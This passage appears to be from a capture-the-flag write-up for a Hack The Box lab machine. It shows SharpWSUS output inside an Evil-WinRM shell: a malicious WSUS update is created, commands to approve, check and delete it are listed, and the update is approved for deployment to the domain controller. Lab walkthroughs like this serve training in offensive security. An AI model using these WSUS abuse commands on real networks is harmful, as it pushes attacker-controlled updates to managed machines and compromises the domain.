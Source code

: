 ```bash

################# WSUS Server Enumeration via SQL ##################
ServerName, WSUSPortNumber, WSUSContentLocation
-----------------------------------------------
DC, 8530, c:\WSUS\WsusContent

ImportUpdate
Update Revision ID: 30
PrepareXMLtoClient
InjectURL2Download
DeploymentRevision
PrepareBundle
PrepareBundle Revision ID: 31
PrepareXMLBundletoClient
DeploymentRevision

[*] Update created - When ready to deploy use the following command:
[*] SharpWSUS.exe approve /updateid:53d6f7d2-801b-41fe-9ba9-dae4d213a255 /computername:Target.FQDN /groupname:"Group Name"

[*] To check on the update status use the following command:
[*] SharpWSUS.exe check /updateid:53d6f7d2-801b-41fe-9ba9-dae4d213a255 /computername:Target.FQDN

[*] To delete the update use the following command:
[*] SharpWSUS.exe delete /updateid:53d6f7d2-801b-41fe-9ba9-dae4d213a255 /computername:Target.FQDN /groupname:"Group Name"

[*] Create complete
```

It's providing command lines for further steps.
- Deploy : `SharpWSUS.exe approve /updateid:53d6f7d2-801b-41fe-9ba9-dae4d213a255 /computername:Target.FQDN /groupname:"Group Name"`
- Check : `SharpWSUS.exe check /updateid:53d6f7d2-801b-41fe-9ba9-dae4d213a255 /computername:Target.FQDN`
- Delete : `SharpWSUS.exe delete /updateid:53d6f7d2-801b-41fe-9ba9-dae4d213a255 /computername:Target.FQDN /groupname:"Group Name"`

```bash
*Evil-WinRM* PS C:\Users\sflowers\Documents> .\SharpWSUS.exe approve /updateid:53d6f7d2-801b-41fe-9ba9-dae4d213a255 /computername:dc.outdated.htb /group
name:"Group Name"

 ____  _                   __        ______  _   _ ____
/ ___|| |__   __ _ _ __ _ _\ \      / / ___|| | | / ___|
\___ \| '_ \ / _` | '__| '_ \ \ /\ / /\___ \| | | \___ \
 ___) | | | | (_| | |  | |_) \ V  V /  ___) | |_| |___) |
|____/|_| |_|\__,_|_|  | .__/ \_/\_/  |____/ \___/|____/
                       |_|
           Phil Keeble @ Nettitude Red Team

[*] Action: Approve Update

Targeting dc.outdated.htb
TargetComputer, ComputerID, TargetID
------------------------------------
dc.outdated.htb, bd6d57d0-5e6f-4e74-a789-35c8955299e1, 1
Group Exists = False
Group Created: Group Name
Added Computer To Group
Approved Update

[*] Approve complete

```